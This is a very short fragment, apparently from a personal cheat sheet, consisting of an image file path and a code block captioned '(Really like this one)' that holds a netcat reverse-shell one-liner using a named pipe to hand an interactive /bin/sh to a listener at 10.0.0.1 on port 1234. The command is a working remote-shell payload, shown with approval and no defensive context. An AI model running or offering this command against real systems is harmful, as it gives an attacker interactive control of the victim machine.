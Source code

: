 ```
(Really like this one)
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f 
```